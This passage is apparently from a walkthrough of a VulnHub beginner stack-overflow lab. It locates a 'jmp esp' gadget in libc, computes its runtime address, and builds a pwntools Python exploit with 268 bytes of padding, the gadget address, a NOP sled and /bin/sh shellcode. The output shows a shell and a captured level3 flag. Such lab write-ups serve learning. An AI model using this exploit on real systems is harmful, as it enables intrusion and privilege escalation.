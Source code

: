 For this one, I used ```objdump``` with the flag ```-D```, this allow us to disasseble __ALL__ the code insede the libc: just trow this command in terminal ```objdump -D /usr/lib32/libc-2.28.so | grep jmp | grep esp``` and pick one of the address on the left.

Now some math: the addred we just copied is the __offest__ of that particular gadget, offset from the base address where the libc are loaded into the binary.
So, to know where exactly this gadget lies at runtime, we need to sum the base addre and the gadget's offset.
This base address can be obtained or with the ```vmmap``` command inside __gdb__ or with the ```ldd``` command inside terminal.

```sh
level2@kali:~$ ldd ./levelThree 
	linux-gate.so.1 (0xf7fd2000)
	libc.so.6 => /lib32/libc.so.6 (0xf7dc9000)
	/lib/ld-linux.so.2 (0xf7fd4000)
```
---
**UPDATE**
Never trust ```ldd```, sometime it simple displays the wrong address, it's safer use the address displayed by the gdb-peda's ```vmmap``` command, the first one on the left column on the first ```libc``` row: remember the ```libc``` are loaded at runtime, so you need to start and break the program to see the correct base address.

---

Take that addres beside libc and sum it: ```0xf7dc9000 + 0xbff7 = 0xf7dd4ff7```

Ok, we are ready to write down our exploit: open a text editor and 

1. Import pwntools 
2. Prepare the buffer with 268 bytes padding
3. Append the ```jmp esp``` gadget's address
4. Append your preferred shellcode (I used the one generated by the pwntool itself)

Now yout exploit should be like this:

```python
#!/usr/bin/python2.7

from pwn import *

buf = ""
buf += "A" * 268
buf += p32(0xf7dd4ff7) # jmp esp
buf += "\x90" * 10
buf += asm(shellcraft.i386.sh())

print buf
```

Run it with ```./levelThree $(./exp.py)``` and...

```sh
Buf: [REDACTED]
$ id
uid=1003(level3) gid=1002(level2) groups=1002(level2)
$ cat /home/level3/level3.txt
c303c0eaeb5f1afcc300a5cecf541083
$ 
```


[1]: https://www.vulnhub.com/entry/stack-overflows-for-beginners-1,290/
[2]: https://github.com/longld/peda
[3]: https://github.com/Gallopsled/pwntools
[4]: https://wiremask.eu/tools/buffer-overflow-pattern-generator/
[5]: https://twitter.com/MrMoDDoM